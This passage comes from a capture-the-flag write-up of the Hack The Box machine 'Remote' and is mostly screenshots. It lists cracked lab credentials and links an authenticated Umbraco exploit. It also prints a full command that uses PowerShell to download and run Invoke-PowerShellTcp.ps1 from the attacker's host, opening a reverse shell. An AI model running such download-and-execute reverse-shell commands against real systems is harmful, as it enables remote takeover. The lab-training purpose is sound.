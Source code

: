 

![image 8](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(8).png)


Let's crack the hash.


![image 9](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(9).png)



>Username: admin@htb.local
Password: baconandcheese

![image 10](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(10).png)


## Initial Foothold

Let's go back to the umbraco web app running on port 80.

![image 11](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(11).png)


It seems that I have to be authenticted for the exploit to work


[https://www.exploit-db.com/exploits/49488](https://www.exploit-db.com/exploits/49488)

><span style="color:green; font-style:italic; font-family: Calibri, sans-serif; font-size: larger">We are going to upload the powercat.ps1 script to the remote machine and then execute it in order to get a rev shell on attacker machine.</span>
<br>


<div style="background-color: #1e2124; padding: 10px;">
<span style="color:red">$ sudo python3 umbraco.py -u admin@htb.local -p baconandcheese -i http://10.10.10.180/ -c powershell.exe -a "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.2:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.2 -Port 5555"
"</span>
</div>
<br>


![image 12](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(12).png)


https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1


![image 13](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(13).png)


![image 14](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(14).png)




![image 15](https://raw.githubusercontent.com/thehunt1s0n/media/main/Remote-htb/image%20(15).png)
